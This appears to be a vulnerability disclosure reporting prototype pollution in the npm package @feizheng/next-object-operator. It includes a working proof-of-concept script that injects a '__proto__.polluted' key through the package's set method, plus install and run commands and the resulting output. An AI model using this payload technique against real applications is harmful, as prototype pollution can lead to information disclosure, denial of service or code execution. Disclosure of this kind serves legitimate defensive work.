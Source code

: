 # Description

`@feizheng/next-object-operator` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nextObjectOperator = require("@feizheng/next-object-operator")
const operator = new nextObjectOperator({});
console.log("Before : " + {}.polluted);
operator.set('__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i @feizheng/next-object-operator # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```

